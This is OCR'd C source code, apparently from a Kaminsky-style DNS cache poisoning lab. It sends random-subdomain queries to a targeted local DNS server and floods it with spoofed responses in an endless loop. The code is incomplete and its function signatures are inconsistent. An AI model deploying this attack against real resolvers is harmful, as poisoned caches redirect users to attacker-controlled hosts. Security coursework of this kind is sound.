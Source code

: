     void send_raw_packet(char * buffer, int pkt_size);
    void send_dns_request( );
    void send_dns_response( );

    int main()
    {
    srand(time(NULL));

    // Load the DNS request packet from file
    FILE * f_req = fopen("ip_req.bin", "rb");
    if (!f_req) {
        perror("Can't open 'ip_req.bin'");
        exit(1);
    }
    unsigned char ip_req[MAX_FILE_SIZE];
    int n_req = fread(ip_req, 1, MAX_FILE_SIZE, f_req);

    // Load the first DNS response packet from file
    FILE * f_resp = fopen("ip_resp.bin", "rb");
    if (!f_resp) {
        perror("Can't open 'ip_resp.bin'");
        exit(1);
    }
    unsigned char ip_resp[MAX_FILE_SIZE];
    int n_resp = fread(ip_resp, 1, MAX_FILE_SIZE, f_resp);

    char a[26]="abcdefghijklmnopqrstuvwxyz";

    while (1) {
        // Generate a random name with length 5
        char name[5];
        for (int k=0; k<5; k++)  name[k] = a[rand() % 26];
        //##################################################################
        /* Step 1. Send a DNS request to the targeted local DNS server.
                This will trigger the DNS server to send out DNS queries */

        // Modify the name in the question field (offset=41)
        memcpy(ip_req+41, name , 5);
        send_dns_request(ip_req, n_req);

        /* Step 2. Send many spoofed responses to the targeted local DNS server,
                each one with a different transaction ID. */
        
        // Modify the name in the question field (offset=41)
        memcpy(ip_resp+41, name, 5);
        // Modify the name in the answer field (offset=64)
        memcpy(ip_resp+64, name , 5);

        send_dns_response(ip_resp, n_resp);
        //##################################################################
    }
    }

    /* Use for sending DNS request.
    * Add arguments to the function definition if needed.
    * */
    void send_dns_request(unsigned char *packet, int pkt_size)
    {
    printf("Sending spoofed query!\n");
    send_raw_packet(packet, pkt_size);
    }

